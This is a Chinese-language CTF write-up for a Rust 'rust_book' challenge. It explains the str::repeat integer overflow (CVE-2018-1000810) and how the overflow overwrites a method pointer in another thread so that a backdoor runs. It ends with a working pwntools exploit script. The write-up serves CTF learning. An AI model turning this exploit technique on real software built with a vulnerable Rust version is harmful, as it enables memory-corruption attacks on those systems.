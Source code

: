 即在Rust 版本1.29.0以及更低版本中，repeat的参数超过0x4000000000000000即会被当成0x0，所以在该POC中会开辟一个能够存放0x1个“AAAA”的空间并填充上0x4000000000000001个“AAAA”，存在严重的溢出问题。

cve具体分析参考最后的参考资料

### 利用：

同时由于这是一个多线程程序，基于对CVE-2018-1000810了解之后可以有这样的攻击思路

由于在线程checking中存在trait的方法NamedCanary

并且存在通过NamedCanary自己定义的结构体方法

![](https://pic.imgdb.cn/item/62162b702ab3f51d910b993b.png)

需要注意的是，线程checking具体实现了什么我们并不需要关心，我们只需要知道在线程pwn中存在repeat的整数溢出，在线程checking中存在自己定义的方法并且在loop循环中不断调用

所以我们只需要在线程pwn中溢出backdoor函数的地址使其能够覆盖线程checking中自己定义的方法的地址就可以调用backdoor

由于存在静态变量FUNC，我们尝试直接在线程pwn中利用repeat溢出暴力覆盖大量所有数据为FUNC，经过GDB调试发现checking线程中调用函数地址会被覆盖成FUNC+0x18，所以我们利用repeat溢出FUNC-0x18就可以覆盖成FUNC最终在checking线程中调用backdoor得到flag。

### exp：

````python
# -*- coding: utf-8 -*-
from pwn import *
context(os='linux',arch='amd64')
context.log_level = 'debug'

# nm -C ./rust_book | grep FUNC
# 0000000000700540 D rust_book::FUNC::hef8b6fd3f3627393
FUNC = 0x000000000700540
target = FUNC-0x18

# CVE-2018-1000810
while True:
    p = process("./rust_book")
    # p = remote("0.0.0.0",9999)
    p.sendlineafter(">> Your choice:","0")
    p.sendlineafter("Book name: (str)",p64(target)*8)
    p.sendlineafter("Book description: (str)","exp")
    p.sendlineafter("Book unit price: (unsigned int)","1")
    p.sendlineafter(">> Your choice:","1")
    p.sendlineafter("Book ID:","0")
    p.sendlineafter("How many copies of that book do you want to buy: (unsigned int)","10")
    p.sendlineafter(">> Your choice:","2")
    p.sendlineafter("Idx:","0")
    p.sendlineafter(">> Your choice:","2")
    p.sendlineafter("you want to buy : (unsigned int)","288230376151711745") 
    # quantity - (2**64 / 64) + 1 == 0x400000000000001 == 288230376151711745
    p.sendlineafter(">> Your choice:","5")
    try:
        # p.recvuntil("flag")
        flag = p.recvuntil("}")
        print flag
        pause()
    except:
        p.close()
````
